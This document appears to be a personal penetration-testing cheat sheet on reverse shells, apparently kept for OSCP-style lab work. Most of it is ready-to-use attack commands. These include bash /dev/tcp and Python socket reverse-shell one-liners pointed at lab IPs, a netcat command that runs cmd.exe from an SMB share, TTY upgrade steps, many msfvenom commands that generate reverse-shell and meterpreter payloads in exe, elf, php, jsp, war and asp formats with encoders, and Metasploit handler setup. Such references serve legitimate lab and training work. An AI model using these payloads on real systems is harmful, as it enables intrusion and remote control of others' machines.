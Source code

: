 # Shells

## Reverse shells
**Links**

- https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
  https://github.com/Tib3rius/rsg/blob/master/shells.txt
  http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
  https://github.com/swisskyrepo/PayloadsAllTheThings
  https://cyb3rdan.com/2019/07/01/oscp/
  https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

## Shells
`/bin/bash -i >& /dev/tcp/10.10.14.20/4444 0>&1`
`bash -i >& /dev/tcp/192.168.32.31/4444 0>&1`
`bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444 0>&1'`
`bash -c help`' for more information about shell builtin commands.
`/bin/sh -i`
`/bin/bash -i`
`echo os.system('/bin/bash')`

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.126",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

`-c` cmd : program passed in as string (terminates option list)

## Getting a shell in limited interpreters:
system("start cmd.exe /k $cmd")
Second shell
After getting a shell, get a second shell with "start" in case the first one bugs up/hangs/crashes (assuming running SMB server): 
victim > start \\10.10.12.84\share\nc.exe -nv -e cmd.exe 10.10.12.84 80



<img src="full shell.png" style="zoom:48%;" />



## Upgrade to full Shell

``` python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg and then enter, wait a sec, then reset enter
export TERM=linux
```


## Msfvenom

https://www.offensive-security.com/metasploit-unleashed/Msfvenom/
https://netsec.ws/?p=331

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.56 LPORT=8888 -f raw > shell.jsp
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.0.126 LPORT=53 -f elf -o shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.126 LPORT=4444 -f exe -o shell_reverse.exe
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python

msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> -o meterpreter.php
msfvenom -p generic/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f php -o shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=attackerPort -f aspx > shell.aspx
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=attackerPort -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.126 LPORT=4444 -f war > shell.war
```

`-p` = payload\
`-f` = output format\
`-o` = out\
`-a` = architecture\
`-e` = encoder\
`-i` = iterations of encoder\
`-b` = bad characters to avoid \x00\xff\
`--platform` = platform for the payload\



## Multi/Handler

```shell
set payload ...
set LPORT
set LHOST
exploit
```

**Create small shellcode**
`msfvenom -p windows/shell_reverse_tcp -a x86 -f python –platform windows LHOST=<ip> LPORT=443 -b “\x00” EXITFUNC=thread –smallest -e x86/fnstenv_mov`